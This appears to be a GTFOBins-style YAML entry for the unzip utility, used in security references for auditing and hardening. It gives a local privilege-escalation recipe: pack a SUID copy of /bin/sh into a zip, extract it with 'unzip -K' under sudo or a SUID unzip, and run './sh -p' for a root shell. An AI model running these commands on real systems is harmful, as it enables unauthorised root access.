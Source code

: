 ```yaml
---
description: |
  Certain `unzip` versions allows to preserve the SUID bit. Prepare an archive beforehand with the following commands as root:

  ```
  cp /bin/sh .
  chmod +s sh
  zip shell.zip sh
  ```

  Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
functions:
  sudo:
    - code: |
        sudo unzip -K shell.zip
        ./sh -p
  suid:
    - code: |
        ./unzip -K shell.zip
        ./sh -p
---
```

